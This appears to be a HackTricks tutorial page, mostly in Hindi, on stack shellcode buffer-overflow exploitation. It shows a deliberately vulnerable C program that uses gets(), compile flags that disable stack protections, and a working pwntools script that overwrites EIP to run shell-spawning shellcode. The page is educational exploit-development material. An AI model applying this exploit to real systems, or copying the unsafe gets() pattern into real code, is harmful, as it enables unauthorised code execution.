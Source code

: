 # Stack Shellcode

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**स्टैक शेलकोड** एक तकनीक है जो बाइनरी शोषण में उपयोग की जाती है जहाँ एक हमलावर एक कमजोर प्रोग्राम के स्टैक पर शेलकोड लिखता है और फिर **इंस्ट्रक्शन पॉइंटर (IP)** या **एक्सटेंडेड इंस्ट्रक्शन पॉइंटर (EIP)** को इस शेलकोड के स्थान की ओर इंगित करने के लिए संशोधित करता है, जिससे यह निष्पादित होता है। यह एक क्लासिक विधि है जिसका उपयोग अनधिकृत पहुंच प्राप्त करने या लक्षित प्रणाली पर मनमाने आदेश निष्पादित करने के लिए किया जाता है। यहाँ प्रक्रिया का एक विश्लेषण है, जिसमें एक सरल C उदाहरण और यह कैसे आप **pwntools** के साथ एक संबंधित शोषण लिख सकते हैं।

### C Example: A Vulnerable Program

चलो एक कमजोर C प्रोग्राम के सरल उदाहरण से शुरू करते हैं:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
यह प्रोग्राम `gets()` फ़ंक्शन के उपयोग के कारण बफ़र ओवरफ़्लो के लिए संवेदनशील है।

### संकलन

इस प्रोग्राम को संकलित करने के लिए जबकि विभिन्न सुरक्षा उपायों को निष्क्रिय किया गया है (संवेदनशील वातावरण का अनुकरण करने के लिए), आप निम्नलिखित कमांड का उपयोग कर सकते हैं:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: स्टैक सुरक्षा को अक्षम करता है।
* `-z execstack`: स्टैक को निष्पादन योग्य बनाता है, जो स्टैक पर संग्रहीत शेलकोड को निष्पादित करने के लिए आवश्यक है।
* `-no-pie`: पोजीशन इंडिपेंडेंट एक्सीक्यूटेबल को अक्षम करता है, जिससे यह अनुमान लगाना आसान हो जाता है कि हमारा शेलकोड कहाँ स्थित होगा।
* `-m32`: प्रोग्राम को 32-बिट निष्पादन योग्य के रूप में संकलित करता है, जो अक्सर शोषण विकास में सरलता के लिए उपयोग किया जाता है।

### Python Exploit using Pwntools

यहाँ बताया गया है कि आप **pwntools** का उपयोग करके **ret2shellcode** हमले के लिए Python में एक शोषण कैसे लिख सकते हैं:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
यह स्क्रिप्ट एक पेलोड बनाती है जिसमें **NOP स्लाइड**, **शेलकोड** और फिर **EIP** को NOP स्लाइड की ओर इशारा करने वाले पते से ओवरराइट किया जाता है, यह सुनिश्चित करते हुए कि शेलकोड निष्पादित हो जाए।

**NOP स्लाइड** (`asm('nop')`) का उपयोग इस संभावना को बढ़ाने के लिए किया जाता है कि निष्पादन हमारे शेलकोड में "स्लाइड" करेगा चाहे सटीक पता कुछ भी हो। अपने बफर के प्रारंभिक पते के लिए `p32()` तर्क को समायोजित करें और NOP स्लाइड में पहुंचने के लिए एक ऑफसेट जोड़ें।

## सुरक्षा

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) **को बंद किया जाना चाहिए** ताकि पता निष्पादन के दौरान विश्वसनीय हो या जिस पते पर फ़ंक्शन संग्रहीत होगा वह हमेशा एक जैसा नहीं होगा और आपको यह पता लगाने के लिए कुछ लीक की आवश्यकता होगी कि जीत फ़ंक्शन कहाँ लोड हुआ है।
* [**स्टैक कैनरीज़**](../common-binary-protections-and-bypasses/stack-canaries/) को भी बंद किया जाना चाहिए या समझौता किया गया EIP रिटर्न पता कभी नहीं फॉलो किया जाएगा।
* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md) **स्टैक** सुरक्षा शेलकोड के स्टैक के अंदर निष्पादन को रोक देगी क्योंकि वह क्षेत्र निष्पादन योग्य नहीं होगा।

## अन्य उदाहरण और संदर्भ

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64बिट, ASLR के साथ स्टैक पता लीक, शेलकोड लिखें और उस पर कूदें
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32 बिट, ASLR के साथ स्टैक लीक, शेलकोड लिखें और उस पर कूदें
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32 बिट, ASLR के साथ स्टैक लीक, exit() को कॉल करने से रोकने के लिए तुलना, एक मान के साथ वेरिएबल को ओवरराइट करें और शेलकोड लिखें और उस पर कूदें

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
